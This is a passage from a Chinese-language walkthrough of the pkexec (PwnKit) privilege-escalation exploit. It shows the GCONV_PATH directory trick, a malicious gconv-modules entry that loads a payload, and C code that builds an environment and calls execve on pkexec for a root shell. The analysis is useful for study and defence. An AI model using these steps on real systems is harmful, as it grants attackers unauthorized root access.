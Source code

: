 ### 二、准备绕过程序搜索

第二步要创建 `GCONV_PATH=./lol` 文件，这一步是为了让 `pkexec()` 632 行正常返回。

### 三、准备恶意 gconv-modules

第三步，准备恶意的 `gconv-modules` 配置文件（见上一章节关于 `gconv-modules` 三元组部分），引导程序在转换字符集时调用我们写好的 payload 程序：

```
module  UTF-8//    INTERNAL    ../payload    2
```

### 四、准备调用环境

第四步，准备调用 `pkexec()` 的 `argc` 与 `envp`：

```c
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };
```

完事具备，只欠东风，利用 `execve` 调用 `pkexec`，提权获得 root shell：

```c
    execve("/usr/bin/pkexec", a_argv, a_envp);
```

PoC 执行完毕后布局如下：

```
$ tree .
.
├── blasty-vs-pkexec.c
├── GCONV_PATH=.
│   └── lol
├── lol
│   └── gconv-modules
├── payload.c
├── payload.so
└── pkexec-poc
```

## 参考资料

1. [https://www.openwall.com/lists/oss-security/2014/07/14/1]()
2. [https://www.openwall.com/lists/oss-security/2017/06/23/8]()
3. [https://hugeh0ge.github.io/2019/11/04/Getting-Arbitrary-Code-Execution-from-fopen-s-2nd-Argument/]()